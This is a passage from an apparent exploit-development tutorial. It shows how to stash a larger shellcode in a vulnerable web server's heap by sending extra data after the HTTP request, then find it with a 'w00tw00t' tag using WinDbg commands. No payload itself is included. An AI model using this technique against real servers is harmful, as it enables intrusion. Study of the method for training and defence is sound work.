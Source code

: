 Therefore, we have to find a way to store a larger shellcode in our current exploit.

# Storing the shellcode in the heap
We have to find a way to store the shellcode in other place of the application. Another option is to use a smaller payloads with fewer features, but this is a last resort.
We have to store our shellcode in a different memory region before the crash and then redirect the execution flow to that additional buffer. We will use the space we already have to create a "stager" shellcode that jumps to this second memory region, once we find it.
To determine what will be stored in memory by our vulnerable application, we could either perform a very in-depth reverse engineering process on the application, or we could make some educated guesses based on the type of application we are attacking.
In the case of this application, a web server, we could do two things:
- Rather than terminating the HTTP request with `\r\n`, we can try to add an additional buffer between the carriage return and the new line. **Doing this results in the application not crashing, which means that this method does not work here.**
- Sending a buffer after we end the HTTP request (after `\r\n`). Doing this results in hitting our POP, RET breakpoint and in a crash, so we will stick to this method.

Once we manage to add another shellcode of a bigger space (400 bytes), we need to find where is it stored in memory. For that, some bytes of the shellcode have been given a special value (in my case "w00tw00t") so it is possible to find them.
Now, let's find this bytes once we hit the breakpoint:
```c
0:004> s -a 0x0 L?80000000 w00tw00t
01805a86  77 30 30 74 77 30 30 74-41 41 41 41 41 41 41 41  w00tw00tAAAAAAAA
```

Seems that we were able to locate our payload. Now, let's see if the shellcode is complete by adding 400 bytes:
```c
0:004> db 01805a86 +0n400
01805c16  41 41 41 41 41 41 41 41-00 00 00 00 00 00 00 00  AAAAAAAA........
```

After a 400 bytes offset, our payload is stored still. That means that we can store our complete buffer here as we have space.
**Now, let's see where this buffer is stored.**

Let's check if it is in the stack of the thread:
```c
0:004> !teb
TEB at 002bc000
    ExceptionList:        02d4ff60
    StackBase:            02d50000
    StackLimit:           02d4c000
```

Surprising, it is not in the current stack.
Let's use an extension from WinDbg called !address that tells us in which memory region our shellcode is:
```c
0:004> !address 01805a86  
                                 
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  Heap
Base Address:           01800000
End Address:            0180f000
```